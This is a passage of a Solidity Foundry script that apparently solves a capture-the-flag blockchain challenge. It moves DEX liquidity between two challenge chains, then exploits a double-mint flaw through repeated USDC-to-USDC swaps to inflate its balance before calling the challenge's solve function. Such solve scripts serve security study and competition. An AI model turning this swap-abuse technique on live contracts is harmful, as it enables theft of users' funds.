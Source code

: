         logBalances_code();

        vm.stopBroadcast();
    }

    function code_swap_moo_0() public {
        vm.createSelectFork(vm.envString("RPCURL_CODE"));
        vm.startBroadcast(privkey);
        
        logBalances_code();

        // move MOO liquidity from GATE to CODE chain
        dex_code.swap(myAddr, PURR, USDC, 1200 ether, false);
        dex_code.swap(myAddr, USDC, MOO, 229 ether, false);

        logBalances_code();

        vm.stopBroadcast();
    }
    
    function code_final_solve_0() public {
        vm.createSelectFork(vm.envString("RPCURL_CODE"));
        vm.startBroadcast(privkey);
        
        logBalances_code();

        // get more USDC than DEX has
        dex_code.swap(myAddr, MOO, USDC, 1200 ether, false);

        // abuse double-mint to get large amount of USDC
        // on CODE chain.
        // this crashes relayer but doesnt matter anymore
        // since all required liquidity is moved to CODE chain
        for (int i=0; i<20; i++) {
            dex_code.swap(myAddr, USDC, USDC, 350 ether, false);
        }

        logBalances_code();

        vm.stopBroadcast();
    }

    function code_final_solve_1() public {
        vm.createSelectFork(vm.envString("RPCURL_CODE"));
        vm.startBroadcast(privkey);
        
        logBalances_code();

        // swap USDC for required MOO and PURR
        // and solve challenge
        dex_code.swap(myAddr, USDC, PURR, 300 ether, false);
        dex_code.swap(myAddr, USDC, MOO, 300 ether, false);

        logBalances_code();

        setup.solve();

        vm.stopBroadcast();
    }
